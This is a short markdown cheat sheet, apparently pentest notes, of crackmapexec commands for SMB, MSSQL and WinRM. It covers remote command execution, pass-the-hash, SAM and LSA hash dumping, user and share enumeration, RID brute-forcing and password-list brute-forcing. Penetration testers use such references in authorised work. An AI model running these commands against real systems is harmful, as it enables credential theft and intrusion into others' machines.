

## SMB

```bash
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' # Execute Powershell
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami # Excute cmd
crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami # Pass-the-Hash
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam # Dump SAM
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa # Dump LSASS in memmory hashes
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions # Get sessions (
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users # Get logged-on users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks # Enumerate the disks
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users # Enumerate users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol # Get password policy
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute # RID brute
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --shares
```

---

## MSSQL

### Brute-Force

```bash
$ crackmapexec mssql <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
```

### Execute Commands

```bash
#Username + Password + CMD command
$ crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
#Username + Hash + PS command
$ crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'
```

---

## WinRM

### Brute-Force

```bash
$ crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
```

### Execute Commands

```bash
# Just check a pair of credentials
## Username + Password + CMD command execution
$ crackmapexec winrm <IP> -d <Domain Name> -u <username> -p <password> -x "whoami"
## Username + Hash + PS command execution
$ crackmapexec winrm <IP> -d <Domain Name> -u <username> -H <HASH> -X '$PSVersionTable'
# Crackmapexec won't give you an interactive shell, but it will check if the creds are valid to access winrm
```